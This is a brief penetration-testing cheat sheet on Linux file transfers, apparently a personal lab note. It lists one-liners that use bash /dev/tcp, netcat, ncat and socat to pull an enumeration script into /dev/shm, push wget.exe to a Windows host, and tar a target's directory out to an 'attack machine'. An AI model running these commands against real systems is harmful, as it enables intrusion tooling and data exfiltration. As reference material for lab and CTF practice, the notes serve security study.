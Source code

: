 # Linux File Transfers


## Bash 
```bash
bash -c "cat < /dev/tcp/$IP/$PORT > /dev/shm/LinEnum.sh"
# bash -c 'If default shell is not bash'
```
[Ippsec Reddish Video](https://www.youtube.com/watch?v=Yp4oxoQIBAM)

## Netcat
[[Netcat-Cheatsheet]]
```powershell
# Listener on Windows system
nc -lvnp $PORT > tranfered.exe
# Push wget.exe onto windows system
nc -nv $IP $PORT < /usr/share/windows-resources/binaries/wget.exe
```

## Ncat

Target machine
```bash
tar cf - . | ncat $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```

## Socat
Use [[Socat-Cheatsheet]], Host with:
```bash
sudo socat TCP4-LISTEN:$PORT,fork file:$filename
```
Transfer with
```powershell
socat TCP4:$IP:$PORT file:$filename,create
```
